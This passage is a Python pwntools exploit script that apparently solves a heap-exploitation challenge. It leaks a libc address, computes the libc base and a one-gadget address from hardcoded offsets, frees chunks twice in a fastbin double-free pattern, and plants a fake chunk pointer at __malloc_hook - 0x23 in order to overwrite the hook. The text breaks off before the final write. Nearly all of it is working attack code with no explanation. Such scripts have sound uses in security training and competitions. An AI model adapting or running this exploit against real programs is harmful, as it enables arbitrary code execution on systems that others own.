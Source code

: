 ````python
p.recvuntil('? ')
p.sendline('0')
wrap('1')
p.recvuntil('idx: ')
p.sendline('0')

leak = u64(p.recv(6).ljust(8,'\x00'))
libcbase = leak - 0x3c4b78
log.info("LIBCBASE : 0x%x" % libcbase)
pause()
oneshot = libcbase + 0x4526a
__malloc_hook = libcbase + libc.symbols['__malloc_hook']

## Attack

wrap('2')
p.recvuntil('idx: ')
p.sendline('0')
p.recvuntil('size: ')
p.sendline('90')
p.recvuntil('data: ')
p.send("A")
wrap('2')
p.recvuntil('idx: ')
p.sendline('1')
p.recvuntil('size: ')
p.sendline('90')
p.recvuntil('data: ')
p.send("A")

wrap('3')
p.recvuntil('idx: ')
p.sendline('0')
p.recvuntil('? ')
p.sendline('0')
wrap('3')
p.recvuntil('idx: ')
p.sendline('1')
p.recvuntil('? ')
p.sendline('0')
wrap('3')
p.recvuntil('idx: ')
p.sendline('0')
p.recvuntil('? ')
p.sendline('0')

wrap('2')
p.recvuntil('idx: ')
p.sendline('0')
p.recvuntil('size: ')
p.sendline('90')
p.recvuntil('data: ')
p.send(p64(__malloc_hook - 0x23))
wrap('2')
p.recvuntil('idx: ')
p.sendline('0')
p.recvuntil('size: ')
p.sendline('90')
p.recvuntil('data: ')
p.send("A")
wrap('2')
p.recvuntil('idx: ')
p.sendline('0')
````